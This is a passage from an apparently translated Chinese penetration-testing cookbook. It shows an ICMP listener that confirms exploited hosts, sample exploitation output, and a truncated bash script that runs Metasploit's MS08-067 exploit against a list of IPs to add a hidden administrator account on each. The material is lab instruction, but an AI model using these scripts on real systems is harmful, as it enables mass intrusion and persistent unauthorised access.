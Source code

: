 ```py

print "Listening for Incoming ICMP Traffic. Use Ctrl+C to stop scanning" 
sniff(lfilter=rules,store=0) 
```

脚本侦听所有传入的流量。 当接收到 TTL 值为 15 或 更小的 ICMP 数据包时，脚本将系统标记为可利用。

```
root@KaliLinux:~# ./listener.py 
Listening for Incoming ICMP Traffic. Use Ctrl+C to stop scanning 
```

Python 流量监听器应该首先执行。 脚本最初不应生成输出。 此脚本应该在开发过程的整个时间内持续运行。 一旦脚本运行，应该启动 bash 利用脚本。

```
root@KaliLinux:~# ./multipwn.sh iplist.txt 
Exploiting 172.16.36.132 and pinging 
Exploiting 172.16.36.158 and pinging 
Exploiting 172.16.36.225 and pinging

```

当执行脚本时，原始终端 shell 会显示每个系统正在被利用，并且正在执行`ping`序列。 还将为输入列表中的每个 IP 地址打开一个新的 GNOME 终端。 当每个利用过程完成时，应该从目标系统发起 ICMP 回响请求：

```
root@KaliLinux:~# ./listener.py 
Listening for Incoming ICMP Traffic. Use Ctrl+C to stop scanning 
172.16.36.132 is exploitable 
172.16.36.158 is exploitable 
172.16.36.225 is exploitable
```

假设攻击成功，Python 监听脚本会识别生成的流量，并将 ICMP 流量的每个源 IP 地址列为可利用。

### 工作原理

ICMP 流量似乎是一种用于验证目标系统的可利用性的非直观方式。 然而，它实际上工作得很好。 单个 ICMP 回响请求在目标系统上没有留下任何利用的痕迹，并且不需要过多的开销。 此外，将 TTL 值设为 15 不太可能产生误报，因为几乎所有系统都以 128 或更高的 TTL 值开始。

## 8.8 创建管理账户的多线程 MSF 利用

该秘籍展示了如何使用 bash ，在多个系统上利用单个漏洞，并在每个系统上添加一个新的管理员帐户。 该技术可以用于以后通过使用集成终端服务或 SMB 认证来访问沦陷的系统。

### 准备

要使用此秘籍中演示的脚本，你需要访问多个系统，每个系统都具有可使用 Metasploit 利用的相同漏洞。 提供的示例复制了运行 Windows XP 漏洞版本的 VM，来生成 MS08-067 漏洞的三个实例。 有关设置 Windows 系统的更多信息，请参阅本书第一章中的“安装 Windows Server”秘籍。 此外，本节还需要使用文本编辑器（如 VIM 或 Nano）将脚本写入文件系统。 有关编写脚本的更多信息，请参阅本书第一章的“使用文本编辑器（VIM 和 Nano）”秘籍。

### 操作步骤

下面的示例演示了如何使用 bash 脚本同时利用单个漏洞的多个实例。 特别是，此脚本可用于通过引用 IP 地址的输入列表来利用 MS08-067 NetAPI 漏洞的多个实例：

```sh
#!/bin/bash

if [ ! $1 ]; then echo "Usage: #./script <host file> <username> <password>"; 
exit; fi

iplist=$1 
user=$2 
pass=$3

for ip in $(cat $iplist) 
do   
    gnome-terminal -x msfcli exploit/windows/smb/ms08_067_netapi PAYLOAD=windows/exec CMD="cmd.exe /c \"net user $user $pass /add && net localgroup administrators $user /add\"" RHOST=$ip E   
```